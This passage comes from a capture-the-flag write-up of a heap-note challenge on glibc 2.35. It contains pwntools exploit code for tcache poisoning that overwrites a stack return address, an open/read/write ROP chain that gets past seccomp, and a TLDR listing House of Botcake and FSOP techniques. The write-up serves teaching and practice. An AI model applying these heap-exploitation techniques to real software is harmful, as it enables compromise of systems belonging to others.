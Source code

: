 So, what we’re instead going to do is find the offset of `_IO_file_underflow` return pointer, and forge a chunk to write there. We can reuse the chunks we made from our last arbitrary write, which simplifies things. The offset was computed via some trial and error, but the important feature is that it must be 16 byte aligned, otherwise malloc will crash when trying to alloc from the stack address.

```py
stack = u64(r.recv(8)[:-1].ljust(8, b'\x00')) -0x258 # offset computed in gdb
free(1) # free our forged chunk
free(2) # free our victim chunk
# write to our forged chunk (which again contains the metadata to victim)
alloc(1, 0x230, b'T'*0x208 + p64(0x211) + p64((stack ^ ((heap + 0x3320) >> 12))))
# alloc our victim chunk again.
alloc(2, 0x200, 'xxx')
# write padding and ROP chain
alloc(3, 0x200, b'A'*0xc8+ rop.chain())
```

As a final step, let’s discuss the ROP chain. Seccomp prevents us from calling `system` or `execve`, so we need to use `open`, `read`, and `write` to output the flag. The first step is find what can setup these syscalls, luckilly, libc gives us the great function `syscall()` which we can keep returning to to call these three functions. Next, I need to open `flag.txt`. This is not a complicated problem at all. Remember that 16 byte buffer I allocated during the botcake exploit to prevent consolidation? I can find the fixed offset of that chunk, and write `'flag.txt\0'` to it, and use that as my buffer for open. Then calling read and write becomes simple register operations.

pwntools is extremely useful in automating this process.

```py
rop = ROP(libc)
flagoffset = 0x55d31ac5f520 - 0x55d31ac5c000
flag = heap + flagoffset+16
output = flag + 0x20
syscall = libc.address + 171444
print("Flag.txt: ", hex(flag))
rop.call('syscall', [2, flag, 0, 0]) # open('flag.txt',0,0)
rop.call('syscall', [0, 3, output, 0x100]) #read(3, buf, 0x100)
rop.call('syscall', [1, 1, output, 0x100]) #write(1, buf, 0x100)
```

We can run the entire script and it prints out the flag on remote: `ictf{i_guess_the_post_office_couldnt_hide_the_heapnote_underneath_912b123f}`

## TLDR <a name="tldr"></a>

Heap Note Challenge with no update, arbitrary chunk size, with glibc2.35, full protections, OWR seccomp, no return, no `exit()`. Use double free and read after free to leak libc and heap, use House of Botcake to do FSOP on stdout to leak environ and get a stack leak. Write over return address of `_IO_file_underflow` during the read call of a note allocation to ROP to Open, Read, Write chain to get flag.

## Full Script (Annotated) <a name="script"></a>

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")

context.binary = exe
# this makes tmux split vertically when debugging
context.terminal = ['tmux', 'splitw', '-f', '-h']
# I was going to beat safelinking another way, which is why this became a global
heap = 0x0
```